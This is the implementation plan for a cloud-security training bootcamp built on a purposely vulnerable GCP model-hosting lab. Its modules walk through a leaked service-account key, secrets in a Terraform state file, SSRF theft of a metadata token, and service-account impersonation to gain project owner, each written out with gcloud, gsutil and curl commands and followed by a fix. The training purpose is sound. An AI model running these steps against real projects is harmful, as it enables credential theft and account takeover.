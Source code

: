 # AI Security Bootcamp Implementation Plan

Context: "CloudAI Labs" - A model hosting platform (like Hugging Face) with security flaws

## Implementation Details

### Code Structure
- Use terraform files for deployment
- Add simple Flask ML API

### Student Experience
- ~30 minutes per module
- Story → Attack → Fix
- Visual diagrams provided

### Simplifications
- Pre-configured gcloud
- Focus: Storage, Functions, IAM

# Modules

## Module 1: Enumeration and Discovery
**Attack**:
- Predictable bucket names: modeldata-{dev,prod}
  - Student given 'modeldata-dev' bucket to start
- Dev bucket has a 'bucket-service-account'.json
- The 'bucket-service-account' has access to 'modeldata-prod' bucket
- Hints:
  - Hint1: "what's in the bucket? any creds?"
  - Hint2: "what can those creds access? (insert use-creds-command here)
  - Hint3: "what if there was another bucket for prod?"

**Remediation**:
- Go to Cloud Storage → Select "cloudai-dev" bucket
  - Delete the service account json from the bucket
- Go to IAM, Create new Service Account 'dev-bucket-sa'
  - Student selects tf-preconfigured 'Dev Bucket Access' role

**Engagement**: "CloudAI's 'secret' GPT-5 benchmarks leaked. No insider needed - how?"


## Module 2: Environment Secrets & State Exposure
**Attack** (Adapt Challenge 3):
- `gsutil ls` newly discovered 'modeldata-prod' bucket
  - Discover + download Terraform Statefile
- Examine file, notice 'alice' user, and 'nat' IP
  - Also notice "SSH key" secret visible in encoded form
- Decode SSH Key, dump to local file
  - Use it to `ssh alice@nat-ip` to access deployed VM

**Remediation**:
Prevent decodable SSH Key
- Open GCP Console → Security → Secret Manager
- Click "Create Secret", name: "ssh-key"
- Paste the exposed SSH key, click "Create"

**Engagement**: "Your startup's LLM architecture leaked. Trace the breach through exposed deployment files."

## Module 3: Instance Metadata Service Exploitation  
**Attack** (Use Challenge 4):
- SSH into VM from Module 2: `ssh -i ~/.ssh/alice-key alice@<NAT-IP>`
- Check current service account: `gcloud auth list`
  - Notice default compute service account with full project access
- Discover cloud function bucket: `gsutil ls`
  - Find 'cloud-function-bucket-challenge4' in output
- Read function source: `gsutil cat gs://cloud-function-bucket-challenge4/main.py`
  - Notice SSRF vulnerability in monitoring endpoint
- Run pre-installed script: `./invoke_monitoring_function.sh`
  - Script shows function URL format
- Extract service account token via SSRF:
  ```
  curl -X POST https://$LOCATION-$PROJECT_ID.cloudfunctions.net/monitoring-function \
    -H "Authorization: bearer $(gcloud auth print-identity-token)" \
    -H "Content-Type: application/json" \
    -d '{"metadata": "token"}'
  ```
- Hints:
  - Hint1: "Check what service account the VM is using"
  - Hint2: "Look for cloud functions in storage buckets"
  - Hint3: "The monitoring function fetches URLs - what about metadata.google.internal?"

**Remediation**:
- Go to IAM & Admin → Service Accounts → Create
- Name: "model-api-vm", description: "Minimal VM account"
- Skip permissions for now → Create
- Compute Engine → VM instances → Click instance
- Edit → Service account → Select "model-api-vm"
- Save → Test: SSRF gets limited token

**Engagement**: "Inference costs exploded overnight. The model API is accessing internal resources."

## Module 4: Service Account Misconfigurations [Extension]
**Attack** (Use Challenge 5):
- Use token from Module 3: `export CLOUDSDK_AUTH_ACCESS_TOKEN=<function-token>`
- Check project permissions: `gcloud projects get-iam-policy $PROJECT_ID`
  - Notice monitoring-function@ has custom role
- List all service accounts: `gcloud iam service-accounts list`
  - Find terraform-pipeline@ with admin privileges
- Examine custom role: `gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID`
  - Has owner-like permissions including setIamPolicy
- Check terraform SA bindings: `gcloud iam service-accounts get-iam-policy terraform-pipeline@$PROJECT_ID.iam.gserviceaccount.com`
  - monitoring-function@ has Token Creator role!
- Impersonate to escalate privileges:
  ```
  gcloud projects add-iam-policy-binding $PROJECT_ID \
    --member=user:<your-email> --role=roles/owner \
    --impersonate-service-account terraform-pipeline@$PROJECT_ID.iam.gserviceaccount.com
  ```
- Verify escalation: `gcloud projects get-iam-policy $PROJECT_ID | grep -A2 <your-email>`
- Hints:
  - Hint1: "What other service accounts exist in the project?"
  - Hint2: "Check IAM bindings on the terraform service account"
  - Hint3: "Service Account Token Creator allows impersonation"

**Remediation**:
- Navigate to IAM & Admin → Service Accounts
- Find "monitoring-function@" account → Click name
- Go to "Permissions" tab → View all permissions
- Find "terraform-pipeline@" in the list
- Click pencil icon next to "Service Account Token Creator"
- Select "Remove" → Confirm removal
- Test: `gcloud iam service-accounts get-iam-policy terraform-pipeline@...`
  - Verify monitoring-function@ no longer listed

**Engagement**: "Ex-employee claims they deleted all models using just an API token. Investigate."

